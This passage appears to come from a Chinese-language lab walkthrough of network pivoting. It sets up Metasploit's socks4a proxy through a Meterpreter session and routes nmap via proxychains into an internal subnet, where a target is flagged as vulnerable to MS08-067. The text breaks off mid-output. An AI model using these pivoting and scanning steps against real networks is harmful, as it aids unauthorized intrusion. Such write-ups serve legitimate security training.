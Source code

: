 arp_scanner不太够用,不能扫到端口信息[此时也可用msf自带的其他可以扫描端口的模块如auxiliary/scanner/portscan/tcp来扫 描,因为前面添加了路由,使得msf中的模块可以用meterpreter作为代理访问到7.7.7.x网段],于是用Attacker本机的nmap来扫[可以 更完全的扫描,nmap应该比msf中的扫描模块强大],首先在RD上开sockets4代理,然后用proxychains设置nmap的代理为msf模块开 启的Attacker的1080端口提供的代理,操作如下:

```
meterpreter &gt; background 
[*] Backgrounding session 2...
msf &gt; use auxiliary/server/socks4a 
msf auxiliary(socks4a) &gt; show options 
Module options (auxiliary/server/socks4a):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  
msf auxiliary(socks4a) &gt; set srvhost 172.16.0.20
srvhost =&gt; 172.16.0.20msf auxiliary(socks4a) &gt; run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
msf auxiliary(socks4a) &gt; netstat -antp | grep 1080
[*] exec: netstat -antp | grep 1080
tcp        0      172.16.0.20:1080            0.0.0.0:*               LISTEN      3626/ruby       
msf auxiliary(socks4a) &gt;
```

proxychains设置/etc/proxychains.conf如下:

```
[ProxyList]# add proxy here ...# meanwile# defaults set to "tor"#socks4  127.0.0.1 9050socks4  172.16.0.20 1080
```

nmap扫描如下:

```
root@kali:~# proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse 7.7.7.20ProxyChains-3.1 (http://proxychains.sf.net)Starting Nmap 7.25BETA1 ( https://nmap.org )|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:445-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:80-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:135-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:139-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:135-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:139-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:445-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:139-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:135-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:445-&lt;&gt;&lt;&gt;-OK
Nmap scan report for 7.7.7.20Host is up (0.17s latency).
PORT     STATE    SERVICE      VERSION
22/tcp   open     ssh          Bitvise WinSSHD 7.16 (FlowSsh 7.15; protocol 2.0)80/tcp   closed   http         Easy File Sharing Web Server httpd 6.9
135/tcp  open     msrpc        Microsoft Windows RPC
139/tcp  open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds Microsoft Windows 2003 or 2008 microsoft-ds
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)|     State: VULNERABLE
|     IDs: CVE:CVE-2008-4250
|          The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, 
```